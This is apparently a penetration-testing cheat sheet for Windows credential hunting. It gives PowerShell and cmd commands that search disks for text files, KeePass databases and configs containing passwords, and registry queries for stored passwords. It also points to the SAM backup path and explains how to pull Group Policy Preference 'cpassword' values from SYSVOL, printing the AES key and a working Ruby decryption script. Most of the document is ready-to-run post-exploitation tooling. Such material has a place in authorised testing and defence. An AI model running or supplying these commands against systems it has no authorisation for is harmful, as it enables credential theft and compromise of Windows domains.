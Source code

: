 # Files / Credentials / Flags



```
gci -force -recursive -Path 'C:\users\' -include *.txt

```



## Credentials

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
dir .s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```






## Searching in Registry for Passwords

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```



`C:\Windows\repair\SAM`: Backup of User and Password











######################################################
# AD Hunting Passwords In SYSVOL

- <https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md>

* To reach SYSVOL folder: run> %Logonserver%

*  \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\

* Search for XML, VBS or Batch file that is used to change the password. This can be done by searching for the mentioned file types (with specific search keywords). The password reset script is to be found.

* *.xml , *.vbs , *.bat etc.

* Map drives (Drives.xml)
* Create Local Users (unattend.xml)
* Data Sources (DataSources.xml)
* Printer configuration (Printers.xml)
* Create/Update Services (Services.xml)
* Scheduled Tasks (ScheduledTasks.xml)
* Change local Administrator passwords
* Group policy preferences (Groups.xml)

These XML files can be searched in the SYSVOL folder using key word search. Passwords in the XML file can be searched using the key value “cpassword”. The encryption is 32-byte AES as per Microsoft’s documentation, the encryption key is:

4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8

f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b

AES KEY Source: https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx

With access to this XML file, the attacker can use the AES private key to decrypt the GPP password. The PowerSploit function Get-GPPPassword is most useful for Group Policy Preference exploitation.

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

## cpassword Decrption Ruby Script



```
require 'rubygems'
require 'openssl'
require 'base64'


encrypted_data = "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"

def decrypt(encrypted_data)
  padding = "=" * (4 - (encrypted_data.length % 4))
  epassword = "#{encrypted_data}#{padding}"
  decoded = Base64.decode64(epassword)

   key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
  aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
  aes.decrypt
  aes.key = key
  plaintext = aes.update(decoded)
  plaintext << aes.final
  pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion

   return pass
 end
 
blah = decrypt(encrypted_data)
puts blah  

```

* Source: http://carnal0wnage.attackresearch.com/2012/10/group-policy-preferences-and-getting.html